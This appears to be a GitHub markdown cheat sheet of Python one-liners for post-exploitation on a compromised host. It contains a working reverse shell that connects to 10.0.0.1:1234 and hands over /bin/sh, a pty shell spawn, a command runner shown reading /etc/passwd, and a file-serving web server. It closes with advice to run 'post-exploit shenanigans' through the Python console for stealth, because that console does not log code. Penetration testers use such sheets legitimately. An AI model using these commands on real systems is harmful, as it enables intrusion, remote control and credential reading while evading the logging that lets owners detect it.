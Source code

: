 # Python Command and Scripts for Post Exploitation

One liners
-----------

**Start a web server that serves the local files on port 8000, single threaded**
```python
python -m SimpleHTTPServer 8000```

**Python reverse shell from [pentestmonkey.net](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)**
```python 
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```

**Spawn bash shell prompt**
```python
python -c 'import pty; pty.spawn("/bin/bash")'```

***Print all ASCII characters***
```python
python -c 'import string; print string.printable'```

**Run OS commands through Python Interpreter**
```python
python -c 'import os; os.system("command here")'```

example:

```
python -c 'import os; os.system("cat /etc/passwd")'```

Remember that the python console does not log code by default, so you can run all post-exploit shenanigans through the python console for added stealth. 
Also gets by certain environmental restrictions.

